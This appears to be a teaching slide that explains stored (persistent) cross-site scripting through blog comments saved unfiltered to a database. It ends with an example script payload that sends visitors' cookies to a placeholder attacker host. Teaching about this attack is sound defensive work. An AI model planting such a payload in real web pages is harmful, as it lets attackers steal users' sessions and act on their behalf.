

# Persistent XSS    also called as stored  Xss

In persistent type of XSS attack, XSS code gets saved into persistent storage like database with other data and then it is visible to other users also. One example of this kind of attacks is possible blog websites, where hacker can add their XSS code along with the comment text and if no validation or filtering is present on the server, XSS code can successfully saved into the database. After this if anyone (other users) open the page into their browsers, XSS code can execute and can perform a variety of harmful actions. This type of attack is more vulnerable, because Hacker can steal cookies and can make modifications in the page. The risk with these kinds of attacks is any third party hacker can use this vulnerability to perform some actions on behalf of other users.

example

<SCRIPT> document.location= 'http://attackerhost.example/cgi- bin/cookiesteal.cgi?'+document.cookie </SCRIPT>